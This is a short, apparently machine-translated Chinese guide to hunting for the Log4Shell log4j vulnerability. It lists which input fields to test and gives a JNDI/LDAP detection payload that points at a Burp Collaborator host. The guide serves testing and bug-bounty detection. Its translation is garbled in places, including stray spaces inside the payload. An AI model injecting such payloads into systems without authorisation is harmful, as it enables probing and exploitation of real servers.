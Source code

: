 *   log4j 版本易受攻击的服务器。
*   具有任何协议(HTTP、TCP 等)的端点，允许攻击者发送漏洞字符串。
*   从该请求中注销字符串的日志记录语句。

# 去哪里打猎？

找出任何可能被记录的字段。例如，你正在访问的端点，用户代理，推荐人，你搜索的东西，你以某种形式提交的东西，等等。

# 怎么打猎？

要检测此漏洞，只需在一些参数、用户代理、推荐人、搜索栏、不同的输入字段中插入您的有效负载(在 3xx 响应的情况下，请确保遵循重定向)。如果您的 collaborator 中有 DNS 交互，那么它可能是易受攻击的。我们将用于检测目的的有效负载是:$ { JNDI:LDAP://XYZ . burpcollaborator . net/a }

![](img/4d0ec4542cf358c3bddc3316c12e2b98.png)

log4shell

[这里的“id”只是我使用的一个随机参数]
